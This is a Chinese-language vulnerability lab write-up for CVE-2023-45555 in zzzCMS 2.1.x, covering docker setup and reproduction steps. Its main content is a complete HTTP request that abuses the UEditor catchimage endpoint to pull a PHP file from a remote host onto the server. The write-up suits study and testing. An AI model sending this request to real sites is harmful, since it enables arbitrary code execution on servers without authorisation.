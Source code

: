 # CVE-2023-45555 zzzcms 抓取远程文件shell上传

 zzzcms系统是一款免费、开源的php语言建站系统，采用类MVC结构，框架简单，简单易学。诞生于2016年，其设计初衷是为了让用户快速、方便地建立自己的网站。该系统采用PHP语言开发，支持多相对于其他内容管理系统，ZZZCMS的特点在于其操作简单，易于上手，而且具有良好的扩展性和安全性。此外，ZZZCMS还提供了丰富的功能模块，包括文章管理、分类管理、标签管理、留言管理、友情链接管理等，可以满足大多数用户的需求。同时，ZZZCMS还提供了强大的SEO优化功能，可以帮助用户提高网站的排名，吸引更多的流量。支持MySQL、sQLite数据库。

 zzzCMS v.2.1.9 中的文件上传漏洞允许远程攻击者通过将 imageext 参数从 jpg、jpeg、gif 和 png 修改为 jpg、jpeg、gif、png、pphphp 来执行任意代码。

zzzCMS官网 http://www.zzzcms.com/index.html

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2023-45555
- https://github.com/96xiaopang/Vulnerabilities/blob/main/zzzcms任意文件上传_en.md

## 漏洞环境



执行如下命令启动一个zzzcms-v2.1.7-web：

```
docker compose up -d
```



环境启动后，访问`http://your-ip:80`即可跳转到zzzcmsan安装向导页面



## 漏洞复现

1，使用CVE-2023-45554 增加图片上传的类型 php

![](https://github.com/Shelter1234/VulneraLab/raw/main/zzzCMS/CVE-2023-45554/4.png)

2，构造如下包，抓取远程文件

```
POST /plugins/ueditor/php/controller.php?action=catchimage&encode=utf-8 HTTP/1.1
Host: www.zzcms.io
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Cookie: _ga=GA1.1.2049876865.1708327587; _ga_ZCZHJPMEG7=GS1.1.1709204007.4.0.1709204007.0.0.0; Hm_lvt_1cd9bcbaae133f03a6eb19da6579aaba=1709286898; wp-settings-time-1=1709712213; __test=1; PUBLICCMS_ANALYTICS_ID=3a91f834-b96d-451b-a953-6739bcff6ca0; PUBLICCMS_ADMIN=1_27f0e838-371b-4207-b689-7078a11597be; PHPSESSID=feab404c462e213c6ee39963cc6f7178; zzz998_usercheck=0; zzz116_token=bdcc0f20eec1a5aa7b0a97a58248dacc; zzz116_adminpass=1; zzz116_adminpath=1; zzz116_adminname=admin; zzz116_admintime=1712735964; zzz116_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz911_token=10a5ec35885be8a4f58414fc7b4deeb0; zzz911_adminpass=1; zzz911_adminpath=1; zzz911_adminname=admin; zzz911_admintime=1712739306; zzz911_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz436_adminpass=1; zzz436_adminpath=1; zzz436_adminface=..%2Fplugins%2Fface%2Fface01.png; zzz811_upload=[{"url":"/upload/news/20220923025718/1663916253122919.jpg","title":1663916253122919}]; zzz436_token=7fdaa1daaeb4cd0cbc5c70dcb010c18d; zzz436_adminname=admin; zzz436_admintime=1712831317
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

source[]=http://10.66.64.89/phpinfo.php
```

![image-20240411184608861](./1.png)

3，访问我们构造好的php文件

![image-20240411185945276](./2.png)